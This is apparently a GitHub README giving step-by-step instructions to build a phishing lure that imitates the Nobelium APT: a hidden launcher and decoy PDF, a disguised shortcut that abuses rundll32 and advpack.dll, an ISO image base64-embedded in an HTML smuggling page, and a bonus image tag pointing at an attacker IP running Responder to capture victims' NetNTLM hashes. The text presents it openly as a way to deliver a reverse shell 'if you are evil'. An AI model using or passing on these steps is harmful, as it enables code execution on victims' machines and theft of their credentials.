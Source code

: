 # Mimicking Nobelium APT to send your resume or a reverse shell if you are evil

[![](icono/cv.mp4)](icono/cv.mp4)

First of you can clone this repo : 

```
git clone https://github.com/fredtep/SendCV.git
```

## In Linux : 
Modify calc.cs to suite your needs then compile with : 

```bash
mcs -out:calcLauncher.exe calc.cs
```

## In windows : 

1/ Create a Directory

```mkdir CV\Hidden```

2/ Hide the Hidden Folder

```attrib +h CV\Hidden```

3/ Copy the Hidden/CV-Hack3r-2024.pdf inside the Hidden Folder

4/ Copy calcLauncher.exe inside the CV Folder

5/ Hide calcLauncher.exe (right click > properties > Hidden)

6/ Now create a shorcut :

- right click > New > Shorcut

- **For the path choose :** C:\Windows\System32\rundll32.exe c:\windows\system32\advpack.dll,RegisterOCX calcLauncher.exe

- **For the name choose :** CV

Bonus/ You can change the icon as well if you want : right click > properties > Change Icon

You can select some icon from here : %systemroot%\system32\imageres.dll

## Building the ISO file

First of all we need to get oscdimg.exe which is installed along with the Windows Assessment and Deployment Kit (Windows ADK) 
To do so download ADK at this address : [https://learn.microsoft.com/en-us/windows-hardware/get-started/adk-install](https://learn.microsoft.com/en-us/windows-hardware/get-started/adk-install)

Now you can run the following command

```"C:\Program Files (x86)\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\x86\Oscdimg\Oscdimg" -m -u2 -h -lCV "C:\users\fred\Desktop\CV" "C:\Users\fred\Desktop\CV.iso"```

Now just take your file back to linux and encode the ISO to base64.

```cat CV.iso | base64 -w 0```

Finally copy the output and replace the content of the b64iso variable inside cv.html (toward the end of the script)

Upload cv.html to a server or send it as is and enjoy !

## WICKED BONUS

You can capture the NetNTLM hash of your victim by running responder in a server you own and change line 119 in cv.html : 
```<img src="file://<MY EVIL IP RUNNING RESPONDER>/responder.png" alt="">```

---------------------------------------------------------------

Filesaver.js can be found [here](https://github.com/eligrey/FileSaver.js/tree/master)